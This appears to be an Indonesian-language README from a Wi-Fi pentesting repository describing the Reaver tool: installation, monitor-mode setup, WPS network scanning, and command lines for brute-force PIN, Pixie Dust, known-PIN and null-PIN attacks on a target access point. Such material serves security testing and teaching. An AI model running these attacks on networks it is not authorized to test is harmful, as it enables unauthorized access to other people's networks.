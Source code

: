 # Reaver

![Reaver](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/reaver/img/reaver.jpg)

## Instalasi

Kali Linux:

1. Menggunakan packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt install reaver aircrack-ng pixiewps
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential libpcap-dev git
   https://github.com/t6x/reaver-wps-fork-t6x
   cd reaver-wps-fork-t6x
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi WPS:**

```
sudo wash -i [interface]
```

**2. Pilih Taraget**

Pastikan status `Lck` (Lock) tidak menunjukkan `YES`. Jika `YES`, artinya fitur WPS sedang terkunci (tidak bisa diserang).

**3. Jalankan Serangan:**

1. Brute Force PIN Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -vv
   ```
2. Pixie Dust Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -K -vv
   ```
3. Known PIN Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -p [pin_wps] -vv
   ```
4. Null PIN Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -p "" -vv
   ```

## Catatan

Semua jenis serangan WPS (`Brute Force PIN Attack`, `Pixie Dust Attack`, `Known PIN Attack`, dan `Null PIN Attack`) tidak memerlukan keberadaan client yang terhubung ke Access Point. Hal ini dikarenakan serangan WPS berkomunikasi dan menargetkan mekanisme WPS secara langsung pada Access Point, berbeda dengan serangan `WPA/WPA2-PSK` yang memerlukan minimal satu client aktif untuk menangkap handshake. Keberhasilan serangan WPS bergantung pada status aktif fitur WPS di AP dan kerentanan implementasi WPS pada router target, bukan pada aktivitas client yang terhubung.

## Video Demonstrasi

https://youtu.be/ftriFQwsiNU?si=Ku-meK7gUpv-RXut
